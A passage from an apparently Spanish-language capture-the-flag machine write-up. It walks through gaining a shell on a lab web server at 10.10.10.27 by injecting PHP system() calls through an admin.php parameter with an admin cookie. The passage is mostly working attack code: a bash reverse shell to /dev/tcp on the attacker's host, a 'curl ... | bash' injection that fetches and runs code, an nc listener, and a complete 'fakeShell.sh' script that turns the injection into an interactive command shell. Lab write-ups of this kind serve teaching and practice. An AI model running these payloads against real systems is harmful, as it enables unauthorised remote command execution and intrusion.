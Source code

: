     bash -i >& /dev/tcp/10.10.14.28/443 0>&1
    ```

1. Compartimos un servicio http por el puerto 80

    ```bash
    python3 -m http.server 80
    ```

1. En la web, le damos un curl a nuestra maquina

    ```php
    <?php system("curl 10.10.14.28"); ?>
    ```


Aqui vemos el codigo fuente del index.html creado. La idea aqui seria interpretar el codigo.

1. Escuchamos por el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. Ejecutamos la reverse shell 

    ```php
    <?php system("curl 10.10.14.28 | bash"); ?>
    ```

La coneccion se entabla pero el servidor nos expulsa directamente.

### Creamos una FakeShell {-}

En el directorio exploits creamos un fichero `fakeShell.sh` que contiene

```bash
#!/bin/bash

function ctrl_c(){
    echo -e "\n\n[!] Saliendo...\n"
    exit 1
}

# Ctrl+C
trap ctrl_c INT

# Variables globales
main_url="http://10.10.10.27/admin.php"

while true; do
    echo -n "[~] " && read -r command
    echo; curl -s -G $main_url --data-urlencode "html=<?php system(\"$command\"); ?>" --cookie "adminpowa=noonecares" | grep "\/body" -A 500 | grep -v "\/body"; echo
done
```
